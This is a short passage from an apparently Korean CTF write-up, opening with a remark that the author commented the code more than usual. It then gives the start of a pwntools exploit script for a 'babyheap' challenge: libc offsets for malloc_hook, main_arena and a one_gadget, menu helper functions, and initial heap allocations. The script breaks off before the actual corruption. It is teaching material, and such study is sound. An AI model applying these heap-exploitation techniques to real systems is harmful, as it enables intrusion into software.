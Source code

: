원래 주석 별로 안 다는데 이 문제는 최대한 천천히 풀어서 그런지 주석이 많네여

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.15"
#HOST = "202.120.7.218"
PORT = 4444
#PORT = 2017

s = remote(HOST, PORT)
pause()

elf = ELF("./babyheap")
libc = ELF("./libc.so.6")

malloc_hook_off = 0x3C4B10
main_arena_off = 0x3c4b78
one_off = 0x4526a

def func_allocate(size):
    s.recvuntil("Command: ")
    s.sendline("1")

    s.recvuntil("Size: ")
    s.sendline(str(size))

def func_fill(index, content):
    s.recvuntil("Command: ")
    s.sendline("2")

    s.recvuntil("Index: ")
    s.sendline(str(index))

    s.recvuntil("Size: ")
    s.sendline(str(len(content)))

    s.recvuntil("Content: ")
    s.send(content)

def func_free(index):
    s.recvuntil("Command: ")
    s.sendline("3")

    s.recvuntil("Index: ")
    s.sendline(str(index))

def func_dump(index):
    s.recvuntil("Command: ")
    s.sendline("4")

    s.recvuntil("Index: ")
    s.sendline(str(index))

    s.recvuntil("Content: \n")

func_allocate(0x68) # 0, 0x71
func_allocate(0x68) # 1, 0x71
func_allocate(0x68) # 2, 0x71

func_allocate(0x18) # 3, 0x21
func_allocate(0x18) # 4, 0x21
func_allocate(0x18) # 5, 0x21
```